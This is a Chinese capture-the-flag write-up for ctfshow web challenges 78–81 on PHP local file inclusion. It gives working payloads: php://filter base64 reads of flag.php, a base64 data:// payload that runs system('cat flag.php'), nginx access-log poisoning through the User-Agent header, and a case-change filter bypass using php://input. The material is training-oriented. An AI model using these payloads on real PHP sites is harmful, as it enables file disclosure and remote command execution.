






# ctfshow（web78~web81） 文件包含入门

## 前言：

​             在这些题中用到了许多php伪协议，这里写两个做题中比较常用的，具体请看博客（[(21条消息) PHP伪协议_H0ne的博客-CSDN博客_php伪协议](https://blog.csdn.net/qq_53142368/article/details/116594299)）

1、php伪协议：data://碰到file_get_contents()，include（）来用；

**个人感觉data比较万能所以再没有头绪的时候可以尝试一下；**


2、php://input （读取POST数据）

碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；


3、php://filter（本地磁盘文件进行读取）（filter:// 感觉是遇到include()函数使用）

元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。


- ## web78

``` php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload:?file=php://filter/convert.base64-encode/resource=flag.php

传输后获得一串base64加密过后的编码。解密即可；


- ## web79

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题对输入进行了一定的过滤，即不能包含的url中不能直接出现php，可以使用data协议，进行base64加密即可

​			payload:

file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

之后再查看器中进行查看；




- ## web80-81

循序渐进将data协议也禁止了，所以我们可以使用包含日志文件来获取flag

（我们可以通过响应头获取有关中间件的信息，以此判断日志文件的路径）

***tips:***

**nginx日志在/var/log/nginx/access.log**

**apache日志在类似目录下/var/log/httpd/access.log**

``` php
//web80题目
if(isset($_GET['file'])){
    $file = $_GET['file'];
 //没有对输入进行限制和处理所以此处我们可以通过大小写绕过；
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload:?file=/var/log/nginx/access.log

传输后发现日志中记载的是UA头，所以可以通过bp再UA头中构造语句获得flag



先查看文件



获取flag（至于这里为甚么用base64有点不明白，猜测：可能文件使用的是base64加密吧，不过使用vi和vim也可以获得flag）





（两道题都可以使用这种日志包含的思路web81的具体过程就不在此具体赘述）

## web80的第二种解法（php：//input）

正如代码中注释所说我们可以利用大小写绕过后使用input协议，通过post传值进行命令执行




